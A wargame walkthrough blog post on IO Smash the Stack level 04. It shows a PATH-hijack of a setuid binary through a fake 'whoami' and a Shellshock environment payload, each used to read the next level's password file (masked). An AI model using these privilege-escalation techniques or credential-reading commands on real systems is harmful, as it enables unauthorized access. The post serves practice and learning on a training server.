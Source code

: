 +++
title = "IO Smash the stack level 04"
date = "2016-01-26T10:48:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-04"
project_url = "https://greyhat.dk/io-smashthestack-level-04"
type = "post"
+++

## Level04

```sh
level4@io:/levels$ ls -latr level04*
-r-sr-x--- 1 level5 level4 5159 Dec 18  2013 level04
-r-------- 1 level4 level4  245 Dec 18  2013 level04.c
-r-sr-x--- 1 level5 level4 5105 Sep 24  2014 level04_alt
-r-------- 1 level4 level4  120 Jan 27  2015 level04_alt.c
```

level4@io:/levels$ cat level04.c
```c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

So it runs whoami without full path .. lets see if we can make it run our version of whoami

```sh
level4@io:~$ mkdir /tmp/desdic
level4@io:~$ cd /tmp/desdic
level4@io:/tmp/desdic$ echo "cat /home/level5/.pass" > whoami
level4@io:/tmp/desdic$ chmod 777 whoami
level4@io:/tmp/desdic$ ./whoami
cat: /home/level5/.pass: Permission denied
level4@io:/tmp/desdic$ export PATH=.:$PATH
level4@io:/tmp/desdic$ which whoami
./whoami
level4@io:/tmp/desdic$ /levels/level04
Welcome XXXXXXXXXXXXXXXX
```


## Level04 alt

level4@io:/tmp/desdic$ cat /levels/level04_alt.c
```c
//written by bla
#include <stdlib.h>
int main(){
	setresuid(geteuid(), geteuid(), geteuid());
	system("/usr/bin/id");
}
```

Tried some old tricks using IFS to split the system call into usr bin id but it never worked. So I tried shellshock

```sh
level4@io:/tmp/d$ env x='() { :;}; cat /home/level5/.pass' /levels/level04_alt
XXXXXXXXXXXXXXXX
```
